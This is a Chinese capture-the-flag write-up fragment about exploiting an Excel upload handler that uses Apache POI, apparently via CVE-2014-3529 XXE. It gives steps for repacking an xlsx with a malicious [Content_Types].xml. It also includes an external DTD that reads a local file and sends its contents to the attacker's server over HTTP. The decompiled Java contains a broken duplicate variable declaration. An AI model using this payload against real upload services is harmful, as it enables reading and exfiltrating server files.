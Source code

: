 ```java
                            request.setAttribute("filename", filename);
                            String realSavePath = this.makePath(saveFilename, savePath);
                            FileOutputStream out = new FileOutputStream(realSavePath + "/" + saveFilename);
                            byte[] buffer = new byte[1024];
                            int len = false;

                            int len;
                            while((len = in.read(buffer)) > 0) {
                                out.write(buffer, 0, len);
                            }

                            in.close();
                            out.close();
                            message = "文件上传成功!";
                        }
                    }
                }
            }
```

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName)) {
                                try {
                                    Workbook wb1 = WorkbookFactory.create(in);
                                    Sheet sheet = wb1.getSheetAt(0);
                                    System.out.println(sheet.getFirstRowNum());
```

根据文章说是CVE-2014-3529,excel和xxe的漏洞的结合

先新建一个excel-1.xlsx文件，再改后缀为zip，解压缩，对文件夹里面的[Content_Types].xml进行修改，修改完后再压缩成zip，改后缀为xlsx。

```java
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "http://服务器ip/1.dtd">
%remote;
%all;
]>
<root>&send;</root>
```

然后在自己的服务器上面新建一个1.dtd，内容为：

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://服务器ip:监听端口/%file;'>">
```

接着监听自己的服务器的9999端口，然后上传文件。

![image-20231024183517382](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231024183517382.png)

![image-20231024183604608](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231024183604608.png)

具体为啥excel会触发xxe还没细跟，这里先留一下有时候跟（润去补作业了）